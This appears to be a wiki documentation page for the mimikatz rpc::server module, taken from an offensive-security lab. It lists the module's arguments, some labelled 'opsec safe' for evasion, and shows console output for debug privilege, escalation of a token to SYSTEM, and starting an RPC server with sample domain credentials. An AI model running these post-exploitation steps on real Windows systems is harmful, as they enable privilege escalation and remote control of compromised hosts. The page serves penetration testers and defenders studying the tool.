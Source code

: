 # server

`rpc::server` can be used to start an RPC server. It has the following command line arguments:

* `/stop`: terminates the RPC connection
* `/guid`: the guid for the RPC endpoint (opsec safe)
* `/noreg`: to not register the RPC binding
* `/secure`: only secure connections are accepted
* `/altservice`: alter the rpc service name (opsec safe)
* `/negotiate`: the default authentication mechanism `GSS_NEGOTIATE (9)`.
* `/ntlm:` use NTLM authentication `WINNT (10)`.
* `/kerberos`: use Kerberos authentication `GSS_KERBEROS (16)`.
* `/authuser`: the user for authentication
* `/authdomain`: the domain of the authuser
* `/authpassword`: the authuser's password

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

{% tabs %}
{% tab title="Without authentication" %}
An RPC server can be started without an authentication requirement.

```
mimikatz # rpc::server
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Map Reg.: yes
Security: Allow no auth

mimikatz #  > BindString[0]: ncacn_ip_tcp:DC[61057]
 > RPC bind registered
 > RPC Server is waiting!
```
{% endtab %}

{% tab title="With authentication" %}
An RPC server can be started with an authentication requirement.

```
mimikatz # rpc::server /secure /authuser:m3g9tr0n /authdomain:hacklab.local /authpassword:Super_SecretPass!
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Map Reg.: yes
Security: Secure only

mimikatz #  > BindString[0]: ncacn_ip_tcp:DC[61057]
 > RPC bind registered
 > RPC Server is waiting!

mimikatz # ** Security Callback! **
 > ServerPrincName:
 > AuthnLevel     :  6 - PKT_PRIVACY
 > AuthnSvc       : 10 - WINNT
 > AuthzSvc       :  0
```
{% endtab %}
{% endtabs %}
